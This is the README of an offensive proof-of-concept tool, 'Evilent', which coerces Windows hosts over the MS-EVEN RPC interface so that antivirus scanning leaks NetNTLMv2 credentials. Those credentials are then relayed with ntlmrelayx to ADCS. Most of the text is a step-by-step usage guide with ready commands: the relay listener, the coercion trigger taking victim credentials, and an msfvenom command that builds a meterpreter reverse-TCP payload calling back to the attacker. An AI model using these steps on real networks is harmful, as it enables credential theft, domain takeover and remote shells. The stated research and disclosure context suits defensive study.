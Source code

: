 Evilent 🧨

A practical NTLM relay attack using the MS-EVEN RPC protocol and antivirus-assisted coercion.
⚙️ Overview

Evilent is a PoC tool that triggers the ElfrOpenBELW procedure in the MS-EVEN RPC interface (used for Windows Event Log service), causing the target machine to connect to an attacker-controlled SMB share. If antivirus software (e.g., Defender) is present, it may scan the file and unintentionally leak NetNTLMv2 credentials, which can be relayed via ntlmrelayx.

This project includes:

    evilent.py — triggers the MS-EVEN coercion

    fefender.py — helper script to run impacket-smbserver and ntlmrelayx in parallel for harvesting and relaying credentials

🧪 Research Context

This attack is a combination of previously known techniques:

    MS-EVEN coercion (originally PoC’d in C by @evilashz)

    NTLM leak through antivirus file scanning behavior

    Credential relaying via impacket’s ntlmrelayx

Presented at CyberWave2025 by @TCross, with responsible disclosure to Microsoft.
📦 Requirements

    Python 3.x
    impacket library
    metasploit (msfvenom)
    Target with antivirus enabled (e.g., Windows Defender)

🚀 Usage
Step 1: Start listener (SMB + relay)

In one terminal:

python3 fefender.py \
  --smbserver-args='Share ./ -smb2support' \
  --ntlmrelayx-args='-smb2support -t http://192.168.140.218/certsrv/certfnsh.asp --adcs --keep-relaying'

![image](https://github.com/user-attachments/assets/4eef02eb-c16c-46f0-91a0-37f486058b2b)

This will launch both:

    impacket-smbserver to serve the bait file

    ntlmrelayx to relay NTLM authentication to a target (e.g., ADCS)

Step 2: Trigger the attack

In another terminal:

python3 evilent.py -backupfile Sharename\\filename \
  domain/username:password@target listener

    target: The victim machine (can be given as [domain/]username[:password]@<ip>)

    Listener IP: IP of the attacker's SMB server

    -backupfile: Optional filename to request (msfvenom generate this file)
    
![image](https://github.com/user-attachments/assets/0f8f6994-4b2c-431d-ac53-8f2ababbeb30)

🧠 Notes

    The attack works only in Active Directory environments.

    Authentication often comes from NT AUTHORITY\LOCAL SERVICE, but antivirus activity may cause the host machine account to leak NetNTLMv2.

    Exploitable file name variations (e.g., test.exeem䵌䵅P) must be prepared ahead on the SMB share.

    Evilent.py generate exe file with MSFVenom (msfvenom -p windows/meterpreter/reverse_tcp LHOST={listen_ip} LPORT=4444 -f exe -o {name})

    Environment variables like %USERNAME% may be expanded when referenced in UNC paths (e.g., \\attacker\%USERNAME%) — potential info leak.

🔐 Disclosure

Microsoft was notified and acknowledged the behavior. They provided security recommendations (e.g., disabling NTLM, monitoring RPC calls to eventlog pipe).
🙏 Credits

    @TCross — evilent.py and combined attack research

    @eversinc33 — impacket-based MS-EVEN PoC

    @evilashz — original C PoC for ElfrOpenBELW coercion

    Impacket — core toolkit for SMB, NTLM, and AD attacks
